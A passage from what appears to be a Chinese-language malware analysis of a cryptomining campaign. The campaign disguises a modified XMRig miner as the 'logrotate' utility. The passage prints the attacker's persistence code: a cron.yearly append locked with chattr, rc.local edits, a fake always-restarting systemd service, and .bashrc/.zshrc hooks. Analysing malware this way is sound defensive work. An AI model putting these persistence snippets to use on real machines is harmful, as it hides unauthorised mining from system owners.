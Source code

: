 ```
   [ -d /etc/cron.yearly ] && echo&#34;$EXEC&#34; >> /etc/cron.yearly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.yearly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.yearly/logrotate 2>/dev/null
}
```

  
  
logrotate 二进制文件  
  
如前所述，攻击者以logrotate为名部署了恶意负载，可能是为了与同名的合法系统实用程序混为一谈，避免引起怀疑。实际上，这个logrotate二进制文件是 XMRig 的修改版本。XMRig 是一个合法的开源加密货币挖矿程序，不出所料，它仍然是威胁行为者进行未经授权的加密货币挖矿的首选。作为开源软件，XMRig 为攻击者提供了轻松定制的便利，在本例中，这涉及剥离所有命令行解析逻辑并对配置进行硬编码。这种调整不仅简化了部署，还使负载能够更逼真地模拟原始的logrotate过程。  
  
持久性机制  
  
获得执行权限后，攻击者设置了多种持久化机制。我们观察到这些机制结合使用了老式启动脚本、现代 systemd 服务、cron 作业和 shell 配置文件：  
  
RC 本地  
  
他们首先检查 Linux 发行版并修改相应的启动文件：  
  

```
RCLOCAL=''
[ -e /etc/debian_version ] && RCLOCAL='/etc/rc.local'
[ -e /etc/centos-release -o -e /etc/redhat-release ] && RCLOCAL='/etc/rc.d/rc.local'
[ -n &#34;$RCLOCAL&#34; ] && add_to_startup &#34;$RCLOCAL&#34;
```

  
  
系统服务  
  
接下来，攻击者投放了一个伪装成的虚假 systemd 服务logrotate。实际上，它只是指向他们的恶意二进制文件，并设置为持续重启：  
  

```
[Unit]
Description=The logrotate utility is designed to simplify the administration of log files on a system which generates a lot of log files
[Service]
ExecStart=$HOME/.config/logrotate
Restart=always
Nice=-20
StandardOutput=null
[Install]
WantedBy=multi-user.target
```

  
  
Shell启动脚本  
  
为了在终端登录或注销时触发有效载荷，他们将其附加到特定于用户的 shell 配置文件中：  
  

```
case &#34;$(ps -p $$ -o comm=)&#34; in
   bash) add_to_startup &#34;$HOME/.bashrc&#34;
         add_to_startup &#34;$HOME/.bash_logout&#34; ;;
   zsh) add_to_startup &#34;$HOME/.zshrc&#34; ;;
esac
```
